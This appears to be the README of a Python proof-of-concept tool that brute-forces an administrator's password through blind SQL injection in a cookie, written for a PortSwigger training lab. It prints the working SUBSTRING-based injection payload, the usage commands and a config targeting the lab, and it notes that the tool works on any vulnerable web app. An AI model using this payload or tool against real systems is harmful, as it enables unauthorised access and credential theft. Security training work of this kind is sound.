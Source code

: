 # SQLInjector

At the moment the app is able to test for cookie injection vulnerabilities. It can be passed the url to test, the code
to inject, the name of the cookie to inject, a confirmation string to be matched on the response content, chars-set to
use for brute forcing, password length, and max number of concurrent thread to run.

##### Testing
This code is a POC, and has been written to solve PortSwigger's lab: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).
This lab can be used to test the code, or any other web app, where a cookie injection vulnerability exists. The app 
will inject the specified code in the cookie we specify by name, and submit the conditional statements to the web app,
checking if our chosen string can be matched on the response content.

##### The injection code
The code that can be injected by default is:
   ```sql
   ' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--`
   ```
The `{char_numb}` and the `{character}` tags are just placeholder. The Brute Forcer will replace the `{char_numb}`
with the character position (index) of the password string. The `{character}` tag will be replaced with a character
taken from the specified char-set.  
  
By changing these two values in the injected code, the Cookie Injector app will try to recover the administrator's
password.

### Usage:
1. Clone the repository

   ```zsh
    git clone https://github.com/hogchild/SQLInjector.git
   ```
2. cd into the SQLInjector directory
   ```zsh
   cd SQLInjector
   ```
3. Run Cookie Injector
   ```zsh
   python3.12 -m SQLInjector.cookie_injector --help
   ```
   ```zsh
   Usage: python -m SQLInjector.cookie_injector [OPTIONS]
   
     This app injects a cookie, sends the crafted request, and checks the
     response from the page content. It needs a JSON configuration file. You can
     edit this manually, at the path: 'config/cookie_injector.json'. The setup
     utility will run automatically, to create one, when launching
     cookie_injector.py without a configuration file in the config folder.
     Alternatively you can run it with the '-s' option.
   
   Options:
     -u, --set-url TEXT      Specify target URL instead of the one in config
                             file.
     -s, --setup-utility     Interactively edit the config file.
     -f, --config-file PATH  Path to config file.  [default:
                             config/cookie_injector.json; required]
     -o, --out-file PATH     Path to output file with the recovered password.
     --help                  Show this message and exit.
   ```
### Example Configuration File
**File path:** config/cookie_injector.json
```json
{
   "target_url": "https://0a76003c03fc905d81c6c029009800fa.web-security-academy.net/product?productId=2",
   "inject_code": "' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--",
   "passwd_length": 20,
   "char_set": "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789",
   "confirm_string": "Welcome",
   "cookie_name": "TrackingId",
   "max_threads": 20
}
```

### Demo
![Demo gif](data/gifmaker_me.gif)